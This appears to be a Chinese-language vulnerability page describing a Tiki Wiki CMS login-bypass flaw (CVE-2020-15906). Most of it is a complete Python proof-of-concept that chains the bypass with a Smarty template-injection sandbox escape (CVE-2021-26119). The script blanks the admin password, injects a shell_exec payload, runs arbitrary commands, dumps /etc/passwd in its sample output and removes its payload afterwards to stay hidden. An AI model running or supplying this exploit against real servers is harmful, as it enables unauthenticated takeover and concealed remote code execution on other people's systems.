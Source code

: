 <languages />

漏洞描述
--------

Tiki Wiki CMS Groupware或简称为Tiki（最初称为TikiWiki）是一种免费且开源的基于Wiki的内容管理系统和在线办公套件。在如下这些版本21.2, 20.4, 19.3, 18.7, 17.3, 16.4前存在一处逻辑错误，管理员账户被爆破60次以上时将被锁定，此时使用空白密码即可以管理员身份登录后台。

<div lang="chinese" dir="ltr" class="mw-content-ltr">
影響範圍
--------

</div>
16.x - 21.1

POC
---

    python poc.py <target> / id

    #!/usr/bin/env python3
    """
    Tiki Wiki CMS GroupWare Serverside Template Injection Remote Code Execution Vulnerability
    This is a demonstration of CVE-2021-26119 (Smarty Template Engine template_object Sandbox Escape PHP Code Injection)
    Written by: Steven Seeley of Qihoo 360 Vulcan Team
    Exploit tested against: Tiki Wiki 20.3 (Tarazed)
    Bug 1: CVE-2020-15906
        - An unauthenticated user can bypass the authentication by bruteforcing the admin account > 50 times and login with a blank password
        - Works on: <= 21.1 (UY_Scuti)

    Bug 2: CVE-2021-26119
        - An admin user can trigger a serverside template injection and gain remote code execution by escaping the sandbox of the Smarty Template Engine by leveraging the 'template_object' property
        - Works on: <= 22.2 (Corona_Borealis) and impacts Smarty <= 3.1.38 (latest)
    # Notes
    - *WARNING* This exploit will lock out the administrator account
    - It was possible in older versions of Tiki Wiki (including 20.3) that you could:
      1. Edit Smarty templates with a user that had the 'tiki_p_edit_templates' privilege, but Tiki clued into this and has since disabled this 'feature' by default, see using [Risky preferences](https://doc.tiki.org/Risky-Preferences)
      2. Disable the Smarty sandbox entirely by unchecking the "Smarty Security" checkbox in the general security tab which is no longer possible.
      However it's still possible for an admin (or user with the 'tiki_p_admin' permission assigned) to add Smarty template syntax to the 'feature_custom_html_head_content' option under [Customization](http://doc.tiki.org/Customization) in the [Look and Feel](http://doc.tiki.org/Look-and-Feel) control panel menu. This is enough for attackers to escape the Smarty sandbox leveraging either CVE-2021-26119 or CVE-2021-26120 and execute arbitrary remote code.
    # Example
    researcher@incite:~/tiki$ ./poc.py
    (+) usage: ./poc.py <host> <path> <cmd>
    (+) eg: ./poc.py 192.168.75.141 / id
    (+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id
    researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
    (+) blanking password...
    (+) admin password blanked!
    (+) getting a session...
    (+) auth bypass successful!
    (+) triggering rce...
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    /var/www/html/tiki-20.3
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    # References
    - Maximilian Barz's poc at https://github.com/S1lkys/CVE-2020-15906
    """

    import requests
    import sys
    import re

    def auth_bypass(s, t):
        d = {
            "ticket" : "",
            "user" : "admin",
            "pass" : "trololololol",
        }
        h = { "referer" : t }
        d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
        d["pass"] = "" # blank login
        r = s.post("%stiki-login.php" % t, data=d, headers=h)
        r = s.get("%stiki-admin.php" % t)
        assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

    def black_password(s, t):
        uri = "%stiki-login.php" % t
        # setup cookies here
        s.get(uri)
        ticket = get_ticket(s, uri)
        d = {
            'user':'admin',
            'pass':'trololololol',
        }
        # crafted especially so unsuccessful_logins isn't recorded
        for i in range(0, 51):
            r = s.post(uri, d)
            if("Account requires administrator approval." in r.text):
                print("(+) admin password blanked!")
                return
        raise Exception("(-) auth bypass failed!")

    def get_ticket(s, uri):
        h = { "referer" : uri }
        r = s.get(uri)
        match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
        assert match, "(-) csrf ticket leak failed!"
        return match.group(1)

    def trigger_or_patch_ssti(s, t, c=None):
        # CVE-2021-26119
        p = { "page": "look" }
        h = { "referer" : t }
        bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
        d = {
            "ticket" : get_ticket(s, "%stiki-admin.php" % t),
            "feature_custom_html_head_content" : bypass if c else '',
            "lm_preference[]": "feature_custom_html_head_content"
        }
        r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
        r = s.get("%stiki-index.php" % t)
        if c != None:
            assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
            cmdr = r.text.split("startrce")[1].split("endrce")[0]
            print(cmdr.strip())

    def main():
        if(len(sys.argv) < 4):
            print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
            print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
            print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
            return
        p = sys.argv[2]
        c = sys.argv[3]
        p = p + "/" if not p.endswith("/") else p
        p = "/" + p if not p.startswith("/") else p
        t = "http://%s%s" % (sys.argv[1], p)
        s = requests.Session()
        print("(+) blanking password...")
        black_password(s, t)
        print("(+) getting a session...")
        auth_bypass(s, t)
        print("(+) auth bypass successful!")
        print("(+) triggering rce...\n")
        # trigger for rce
        trigger_or_patch_ssti(s, t, c)
        # patch so we stay hidden
        trigger_or_patch_ssti(s, t)

    if __name__ == '__main__':
        main()